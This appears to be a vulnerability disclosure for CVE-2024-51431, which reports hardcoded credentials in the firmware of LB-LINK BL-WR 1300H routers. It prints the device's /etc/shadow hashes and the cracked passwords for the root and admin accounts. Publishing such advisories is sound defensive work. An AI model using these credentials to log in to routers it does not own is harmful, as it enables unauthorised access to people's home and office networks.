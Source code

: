 # Exploit Title: Hardcoded Credentials in LB-LINK BL-WR 1300H Routers
# Date: 2024-11-01
# Exploit Author: Matei Josephs
# Vendor Homepage:[LB-LINK](https://www.lb-link.com/)
# Version: LB-LINK BL-WR 1300H v.1.0.4
# CVE : CVE-2024-51431

Introduction
=================
We identified that the firmware update for LB-LINK BL-WR 1300H published on 2024-06-26 and uploaded at [BL-WR1300H(21AC6)_V1.0.4_WEB.zip](https://www.lb-link.com/phoenix/admin/download?fileId=uvAUKbSToMBE&dp=GvUApKfKKUAU) contains hardcoded credentials stored in /etc/shadow which are easily guessable. 

Proof of Concept
=================


## Contents of /etc/shadow:

<img width="358" alt="image" src="https://github.com/user-attachments/assets/3b8a234a-001f-45c7-9d3e-887e4a985ee4">

```
root:$1$2Z68f0nD$oxswkp1EACS.iBxSsaks7.:0:0:99999:7:::
daemon:*:0:0:99999:7:::
ftp:*:0:0:99999:7:::
network:*:0:0:99999:7:::
nobody:*:0:0:99999:7:::
admin:$1$jXGs57h3$cWz8/GtJoo2NhtIKseFat.:17956:0:99999:7:::
superadmin:$1$0IZGHAC2$Cjl7uhGV8HeTw4BhjhzxR.:18614:0:99999:7:::
```

## Cracked passwords:


```
root:admin:0:0:99999:7:::
admin:admin:17956:0:99999:7:::
```
